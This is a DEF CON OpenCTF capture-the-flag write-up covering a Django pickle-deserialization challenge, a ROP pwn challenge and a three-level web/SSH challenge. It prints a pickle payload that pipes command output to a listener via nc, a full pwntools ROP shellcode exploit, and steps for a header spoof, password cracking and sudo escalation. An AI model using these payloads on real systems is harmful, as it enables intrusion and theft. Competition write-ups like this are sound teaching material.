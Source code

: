 # OpenCTF

This year Shell Collecting Club showed up late, but strong to the DEF CON OpenCTF. We are under a time crunch for getting in these writeups. They will be revised a bit better later on. So we apologize for the brevity and lack of screen shots for the time being :)


## Solenya

### Web 300

When navigating to the supplied URL for the challenge, we were greeted with a really basic page that just had a JPG of Pickle Rick from Rick and Morty. There weren't any links that I can recall, so I tried to begin enumerating the server by hand to see if I could derive more information about the service.

I tried to go to *domain*/index.html to see what that would yield.

When doing so, I was greeted with a Django error page (Debug was set to True in the `setting.py` file!) that notified me that I had tried to navigate to a route that wasn't defined in `urls.py`. This error page also lets you know what the defined routes are.

There were 2 routes in particular that were interesting. The first was `/fingerprint/` and the second was `/wubbalubbadubdub/`.

In `/fingerprint/`, we were delivered a different Ricky and Morty image.

However, in `/wubbalubbadubdub/`, we were presented with a standard Django login page.

After trying for a bit to figure out what the creds might be, this attempt was abandoned and I started looking more at the web requests happening in the background.

I noticed a call to `/fingerprint/` with a large amount of POST data. This POST data was the output of javascript fingerprinting script that was being ran through `pickle.dumps` prior to being sent over, along with a `Token` HTTP header with the value `SSdtIFBpY2tsZSBSaWNrIQ==` (b64decode -> "I'm Pickle Rick!"). 

There were a bunch of references to Pickle Rick in this website, and python pickling is known to be dangerous. Therefore, it made sense that we could try to use this for our attack.

We assumed that the pickled POST data (literally called `pickle_data`), was unpickled on the `/fingerprint/` view.

So now, it was time to see if that worked.

I started a nc listener on my laptop (`nc -l -p 42069`) and sent some pickled data that would call `os.system` with some data piped into `nc`.

Due to the rush we were under, I didn't script up the entire payload delivery, but instead set a breakpoint in the JS debugger in the brower before the POST request was sent, and then modified the `pickle_data` variable to contain my generated payload.

Here was the test:

```import requests
import cPickle
import subprocess
import os

class Exploit(object):
    def __reduce__(self):
        return (os.system, ('{} | nc {} {}'.format('ls', '172.31.127.66', '42069'),),)

print cPickle.dumps(Exploit())
```

When I sent this data, I received the output of `ls` in my `nc` listener! We had RCE!

Now I just massaged the payload a bit, finding the flag in a file on the server.

You can read more about the badness of Python pickle [here](https://blog.nelhage.com/2011/03/exploiting-pickle/)


## babys_first_rop

### pwn

This was a pretty simple ROP challenge. 

From main, the binary calls a function that loads a bunch of data into a place labeled `gadgets` then calls a function called `vuln`.

This `vuln` function does a `read()` of 0x100 bytes into a buffer of size `0x50` creating an obvious overflow.

The stack was not executable.

The binary natively gave us a `pop rdi` gadget and a `pop rsi, r15` gadget.

Our method was to call `read()` again on the section of memory called `gadgets` (since it was executable), and load some shellcode there, finally returning to it.

The only thing we needed was a `pop rdx` gadget, which we were able to find using this:

```gdb-peda$ ropsearch "pop rdx" 
Searching for ROP gadget: 'pop rdx' in: binary ranges
0x0060118f : (b'5ac3')    pop rdx; ret
```

our final exploit is below:

```from pwn import *

#p = process(['./babys_first_rop'])
p = remote('172.31.2.62', 47802)
context.arch = 'amd64'

def pad_payload(payload, size):
    n = size - len(payload)
    payload += 'A' * n
    return payload

if __name__ == '__main__':
    ADDR_READ = 0x4004d0
    SHELLCODE = asm(shellcraft.amd64.linux.sh())
    print len(SHELLCODE)
    payload = 'A' * 0x50
    payload += 'whocares'
    payload += p64(0x400793) # pop rdi
    payload += p64(0)
    payload += p64(0x400791) # pop rsi, pop r15
    payload += p64(0x601080) # buf
    payload += 'AAAAAAAA'    # who cares
    payload += p64(0x60118f) # pop rdx
    payload += p64(0x64)     # shellcode len
    payload += p64(ADDR_READ)
    payload += p64(0x601080)
    p.sendline(pad_payload(payload, 0xff))
    p.sendline(SHELLCODE)
    p.interactive()
```


## Forbidden Folly

### level 1

When navigating to the webpage, we get a `403 Forbidden` error.

Knowing that this was a 50 point challenge, we knew the solution would be simple.

One of the first things we did was to set the `X-Forwarded-For` header with the value of `127.0.0.1` (localhost), and tried the get request again.

The flag was in an HTML comment.


### level 2

The HTML page returned from level 1 was some type of monitoring console of servers. But this string was interesting:

`Tim placed a web terminal on the system for easy access, the location of that has been emailed to everyone who has access to this portal.`

Knowing that the domains listed in the monitoring panel were actual domains, we didn't try to attack those.

After spending way too much time analyzing the page, we decided to run, sigh, a brute force attack to enumerate some of the html paths on the server.

After some time, one finally hit: `/debug`.

When going there, there was an open directory listing with a file called `/debug/secret.txt`. This file contained the flag, and an email containing SSH creds for level 3.


### level 3

When sshing onto the server with the creds from level 2, we found a `secretpassword.zip` file in the home folder.

This zipfile was password protected.

We recovered the file, ran it though `zip2john` and finally `john the ripper`. After some time, the password was broken.

The password? `poopstinks`. Nice.

The contents of the zip file were jsut another password, presumably for another ssh user on the box. Listing the `/home/` directory, we saw a user named `hopper`.

At this point, its important to note that our user, `chad`, was not a sudoer.

When sshing onto the server with the user `hopper` and the password recovered from the zip, the first thing we tried was `sudo su`, and that worked. 

The flag was in the `/root` directory.